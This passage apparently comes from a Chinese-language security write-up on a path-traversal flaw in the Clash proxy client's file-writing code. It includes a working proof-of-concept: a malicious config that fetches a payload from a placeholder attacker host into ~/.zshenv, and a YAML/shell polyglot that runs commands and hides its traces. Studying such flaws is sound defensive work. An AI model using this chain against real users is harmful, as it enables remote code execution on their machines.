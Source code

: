 在向本地`WriteFile`写文件时，也应该限制只可以将文件写入`/Users/$USERNAME/.config/clash/`目录之中。

```go
// @File: adapter/provider/fetcher.go
func safeWrite(path string, buf []byte) error {
	dir := filepath.Dir(path)

	if _, err := os.Stat(dir); os.IsNotExist(err) {
		if err := os.MkdirAll(dir, dirMode); err != nil {
			return err
		}
	}

	return os.WriteFile(path, buf, fileMode)
}
```

此处也就存在一个路径穿越漏洞，而且`path`参数的文件名和其文件内容是可控的，那么最终就导致任意位置任意文件写入，不过需要注意的是写入的文件内容需要符合 yaml 格式。

那将文件写入到哪儿，才能最大化利用这个漏洞呢？在 Linux 系统上可以写入`~/.bash_profile`、`~/.profile`、`~/.bashrc`这三个文件之中；在 macOS 中也可以写入到这三个文件中，除此之外，还可以写 zsh 相关的配置文件`~/.zshenv`；对于 Windows 系统，利用方式在历史漏洞章节已经提过了。下面给出一个示例的恶意主配置文件内容。

```yaml
mixed-port: 7890
allow-lan: false
mode: rule
log-level: warning
proxy-providers:
  provider1:
    type: http
    url: "http://{{yourevilser}}/evil.yaml"
    interval: 3600
    path: ../../.zshenv
    healthcheck:
      enable: true
      interval: 600
      url: http://www.gstatic.com/generate_204
```

其中`evil.yaml`内容如下，由于 Clash 对格式做了检查，如果不符合 yaml 格式则会报错，所以此处不仅需要符合 yaml 格式，最好还要尽可能的符合 shell 格式，以防止在执行命令的过程中报错被受害者发觉，如下的`<<!`在 shell 中意味着多行注释。

```yaml
open /System/Applications/Calculator.app;rm -f ~/.zshenv;bash -c 'nohup sleep 10 2>&1 > /dev/null &' <<!:
  aaaaa: 11111

proxies:
  - {
      name: vP,
      server: n04.a00x.party,
      port: 18000,
      type: ssr,
      cipher: aes-256-cfb,
      password: AFX92CS,
      protocol: auth_aes128_sha1,
      obfs: http_simple,
      protocol-param: 232991:xSnSFv,
      obfs-param: download.windowsupdate.com,
      udp: true,
    }

aaaaa: 2222
```
